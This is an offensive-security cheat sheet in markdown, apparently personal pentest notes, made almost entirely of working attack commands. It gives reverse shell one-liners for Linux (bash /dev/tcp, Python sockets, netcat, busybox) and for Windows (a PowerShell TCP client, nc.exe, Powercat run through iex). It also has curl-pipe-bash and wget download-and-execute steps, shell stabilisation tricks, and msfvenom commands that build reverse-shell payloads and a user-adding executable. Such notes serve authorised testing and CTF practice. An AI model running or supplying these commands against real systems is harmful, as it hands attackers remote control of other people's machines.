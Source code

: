 ## [Reverse shells](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)

**_!!! Try OPEN ports: 80, 443, 8080, 9001, ... !!!_**

### Linux

```bash
# Bash
bash -c "bash -i >& /dev/tcp/<IP>/443 0>&1"

# Python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'

# NC OpenBsd
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <IP> 443 >/tmp/f

# Busybox
busybox nc <IP> 443 -e /bin/sh
```
>[!info]
>Try full path: e.g. /bin/bash
>revshells.com to generate payloads!

```shell
# Create file
cat rev.sh
bash -c "bash -i >& /dev/tcp/<IP>/443 0>&1"

# Start python webserver
python3 -m http.server 80

# RCE commands:
wget <IP>/rev.sh -O /tmp/rev.sh
bash /tmp/rev.sh
-- OR --
curl http://<IP>/rev.sh|bash
```

### Windows

```powershell
# Powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# nc.exe
nc.exe -e cmd.exe <IP> 443

# Powercat
powershell -exec bypass -c "iwr('http://<IP>/powercat.ps1')|iex;powercat -c <IP> -p 443 -e cmd"

# Powercat alternative
IEX (New-Object System.Net.Webclient).DownloadString("http://<IP>/powercat.ps1");powercat -c <IP> -p 443 -e powershell
```
>[!info]
>Fix escaping issues: `\` becomes `\\`
>Try `/` and `\`
>revshells.com to generate payloads

```bash
# Fix PATH variable:
set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
```


---

## Stabilize shells

### Linux
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'

Ctrl-Z

stty raw -echo; fg

reset
export SHELL=bash
export TERM=xterm-256color
stty rows 35 columns 150
```

### Windows

Powercat: [link](https://github.com/besimorhino/powercat)
```shell
powershell -exec bypass -c "iwr('http://<IP>/powercat.ps1')|iex;powercat -c <IP> -p 443 -e cmd"
```


---

## msfvenom

aspx:
```bash
msfvenom -f aspx -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=443 -o shell.aspx
```

Windows:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=443 -f exe -o shell.exe
```

PHP for windows:
```bash
msfvenom -p php/reverse_php LHOST=<IP> LPORT=443 -f raw -o rev.pHp
```

DLL:
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=443 -f dll > shell.dll
```

Add user in windows:
```bash
msfvenom -p windows/adduser USER=<user> PASS=<pass> -f exe -o user.exe 
```
